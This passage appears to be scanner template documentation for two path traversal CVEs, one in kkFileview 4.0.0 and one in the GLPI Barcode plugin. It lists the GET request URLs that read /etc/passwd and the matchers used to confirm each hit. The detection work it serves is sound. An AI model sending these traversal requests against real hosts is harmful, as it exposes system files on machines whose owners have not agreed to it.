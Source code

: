 - kkFileview v4.0.0 has arbitrary file read through a directory traversal vulnerability which may lead to sensitive file leak on related host.

- severity - high
- tags - cve,cve2021,kkfileview,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/getCorsFile?urlPath=file:///etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# GLPI plugin Barcode \< 2.6.1 - Path Traversal Vulnerability.

## Description

- Barcode is a GLPI plugin for printing barcodes and QR codes. GLPI instances version 2.x prior to version 2.6.1 with the barcode plugin installed are vulnerable to a path traversal vulnerability.
- severity - high
- tags - glpi,cve,cve2021,lfi,plugin,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/glpi/plugins/barcode/front/send.php?file=../../../../../../../../etc/passwd

### Matchers

**Type - status**

- status
  1. 200
